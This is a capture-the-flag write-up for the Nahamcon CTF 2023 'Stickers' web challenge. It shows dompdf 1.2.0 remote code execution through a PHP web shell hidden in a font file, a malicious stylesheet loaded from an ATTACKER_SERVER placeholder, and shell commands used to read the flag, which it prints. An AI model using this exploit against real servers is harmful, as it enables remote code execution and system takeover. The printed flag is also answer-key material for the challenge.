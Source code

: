 ```yaml
---
name: Stickers (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Stickers (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Stickers

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=247 "Nahamcon CTF 2023: Stickers (Web)")

## Description

> Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!
> Find the flag file in /flag.txt at the root of the filesystem.

## Solution

Tried various payloads in form, but there are some restrictions, e.g. email must be email format, others must be numbers. Successfully inserted `{{7 * 7}}` as the name, but it just rendered as text.

When we submit, the URL looks like: `http://challenge.nahamcon.com:32110/quote.php?organisation=%7B%7B7+*+7%7D%7D&email=a%40a.com&small=1&medium=1&large=1`

We get a PDF receipt, containing the information from the URL parameters.

Don't see the request in burp HTTP history, need to change the filter to include binary.

When we do that and scroll through the response, we find the version `þÿdompdf 1.2.0`.

Google it: https://github.com/positive-security/dompdf-rce

The PoC works, we just need to update URL's, MD5 hash and the payload. However, this article shows the full manual process with a more in depth explanation:
https://exploit-notes.hdks.org/exploit/web/dompdf-rce

Copy a true type font to php file.

```bash
find / -name "*.ttf" 2>/dev/null
cp /path/to/example.ttf ./evil.php
```

Add a shell at the bottom of the file.

```php
<?php system($_REQUEST["cmd"]); ?>
```

Create a malicious CSS, the info in here is important for accessing the uploaded PHP file, i.e. `/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php`.

```css
@font-face {
    font-family: "evil";
    src: url("http://ATTACKER_SERVER/evil.php");
    font-weight: "normal";
    font-style: "normal";
}
```

Create a python web server and expose using ngrok.

```
sudo python -m http.server 80
ngrok http 80
```

Make a request containing the malicious stylesheet.

```bash
http://challenge.nahamcon.com:32110/quote.php?organisation=<link rel=stylesheet href='http://ATTACKER_SERVER/exploit.css'>&email=a%40a.com&small=1&medium=1&large=1
```

Calculate the MD5 of the malicious PHP URL.

```bash
echo -n http://ATTACKER_SERVER/evil.php | md5sum

b8e6174c9d5ee52c9b35647ffbd20856
```

Access the URL: http://challenge.nahamcon.com:32110/dompdf/lib/fonts/evil_normal_b8e6174c9d5ee52c9b35647ffbd20856.php?cmd=ls

Works! We can now call `cat /flag.txt` and receive the flag.

Flag: `flag{a4d52beabcfdeb6ba79fc08709bb5508}`
